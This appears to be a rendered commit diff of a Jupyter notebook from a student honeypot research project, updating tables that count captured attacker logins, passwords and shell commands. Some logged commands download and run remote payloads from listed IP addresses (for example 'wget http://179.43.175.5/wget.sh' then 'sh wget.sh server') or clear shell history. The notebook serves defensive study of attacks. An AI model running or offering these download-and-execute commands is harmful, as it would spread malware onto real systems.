

Before and after one commit to friendly-besties-incorporated/all-honeypot-code, a Jupyter notebook: hacs200master.ipynb, the cells around one changed output, grey strips where cells are left out. Saved outputs shown, nothing was run; the diff lists cells and outputs as text; code cells hidden in the pictures; blank space fills up the shorter version.

```diff
--- a/hacs200master.ipynb
+++ b/hacs200master.ipynb
@@ -226,8 +222,8 @@ tcp
 # %%
-tcpMatch = mitm.loc[(mitm['IP'].isin(tcp['IP'])) & (mitm['containerType'].isin(tcp['containerType']))]
-tcpMatch = tcpMatch.reset_index()
-tcpMatch = tcpMatch.drop(columns='index')
-tcpMatch
+tcpMatch1 = mitm.loc[(mitm['IP'].isin(tcp['IP'])) & (mitm['containerType'].isin(tcp['containerType']))]
+tcpMatch1 = tcpMatch1.reset_index()
+tcpMatch1 = tcpMatch1.drop(columns='index')
+tcpMatch1
 # %% [output]
 |  | containerType | IP | Time | attackerUser | attackerPwd | numCMDS | noninteractive |
 | 0 | pwd-t_running | 173.18.35.41 | 2022-10-24 06:29:53.320 | git | 12345qwert | 1 | y |
@@ -282,0 +262,3 @@ usableTCP
+# %%
+usableTCP1 = tcpMatch1.dropna()
+usableTCP1
@@ -304,36 +300,46 @@ exportCSV(filteredTCPCMDS, 'outTCPCMDS1')
 # %%
-filteredTCPCMDS.groupby(by='command').count()
+filteredTCPCMDS1.groupby(by='command').count()
 # %% [output]
 |  | containerType | IP | Time | attackerUser | attackerPwd | noninteractive |
 | command |  |  |  |  |  |  |
 | ./666bins x86 | 1 | 1 | 1 | 1 | 1 | 1 |
+| ./wget.sh server | 2 | 2 | 2 | 2 | 2 | 2 |
 | ./x0x524c1e4 | 1 | 1 | 1 | 1 | 1 | 1 |
-| PATH=/dev/shm/:/tmp/:./:/var/tmp/... | 3103 | 3103 | 3103 | 3103 | 3103 | 3103 |
+| PATH=/dev/shm/:/tmp/:./:/var/tmp/... | 8487 | 8487 | 8487 | 8487 | 8487 | 8487 |
 | cat /etc/issue | 1 | 1 | 1 | 1 | 1 | 1 |
 | cat 666.x86 >666bins | 1 | 1 | 1 | 1 | 1 | 1 |
-| cat > ./ifconfig | 6 | 6 | 6 | 6 | 6 | 6 |
-| cat > /dev/shm/ifconfig | 45 | 45 | 45 | 45 | 45 | 45 |
+| cat > ./ifconfig | 7 | 7 | 7 | 7 | 7 | 7 |
+| cat > /dev/shm/ifconfig | 78 | 78 | 78 | 78 | 78 | 78 |
 | cat > /etc/ifconfig | 9 | 9 | 9 | 9 | 9 | 9 |
-| cat > /root/ifconfig | 12 | 12 | 12 | 12 | 12 | 12 |
-| cat > /tmp/ifconfig | 6 | 6 | 6 | 6 | 6 | 6 |
+| cat > /root/ifconfig | 13 | 13 | 13 | 13 | 13 | 13 |
 | ... | ... | ... | ... | ... | ... | ... |
-| echo > /var/tmp/ifconfig | 8 | 8 | 8 | 8 | 8 | 8 |
-| history -c | 1 | 1 | 1 | 1 | 1 | 1 |
-| uname -a | 1729 | 1729 | 1729 | 1729 | 1729 | 1729 |
+| sh wget.sh server | 2 | 2 | 2 | 2 | 2 | 2 |
+| uname -a | 2313 | 2313 | 2313 | 2313 | 2313 | 2313 |
 | wget -q http://179.43.163.105/root | 1 | 1 | 1 | 1 | 1 | 1 |
 | wget http://109.206.241.129/666bi... | 1 | 1 | 1 | 1 | 1 | 1 |
+| wget http://179.43.175.5/wget.sh | 2 | 2 | 2 | 2 | 2 | 2 |
 # %%
-usableTCP.groupby(by='IP').count()
-usableTCP.groupby(by='attackerUser').count()
-usableTCP.groupby(by='attackerPwd').count()
+usableTCP1.groupby(by='IP').count()
+usableTCP1.groupby(by='attackerUser').count()
+usableTCP1.groupby(by='attackerPwd').count()
 # %% [output]
 |  | containerType | IP | Time | attackerUser | numCMDS | noninteractive | tcpContainer | tcpTime | ... |
 | attackerPwd |  |  |  |  |  |  |  |  | ... |
-| 1 | 4955 | 4955 | 4955 | 4955 | 4955 | 4955 | 4955 | 4955 | ... |
+| !QAZ@WSX | 31 | 31 | 31 | 31 | 31 | 31 | 31 | 31 | ... |
+| !qAz@wSx | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | ... |
+| 1 | 11959 | 11959 | 11959 | 11959 | 11959 | 11959 | 11959 | 11959 | ... |
+| 111 | 6 | 6 | 6 | 6 | 6 | 6 | 6 | 6 | ... |
+| 111111 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | ... |
+| 123454321 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | ... |
+| 1234567 | 2 | 2 | 2 | 2 | 2 | 2 | 2 | 2 | ... |
 | 12345qwert | 503 | 503 | 503 | 503 | 503 | 503 | 503 | 503 | ... |
+| 1234qazwsx | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | ... |
 | a | 110 | 110 | 110 | 110 | 110 | 110 | 110 | 110 | ... |
+| admin | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | ... |
+| jeff | 2 | 2 | 2 | 2 | 2 | 2 | 2 | 2 | ... |
 | password | 216 | 216 | 216 | 216 | 216 | 216 | 216 | 216 | ... |
 | root | 2 | 2 | 2 | 2 | 2 | 2 | 2 | 2 | ... |
+| toor | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | ... |
 # %% [markdown]
 # Apache second check (same container types for 1/2)
 # %% [markdown]
```
Also changed, not shown: parts of 40 cells of this notebook.
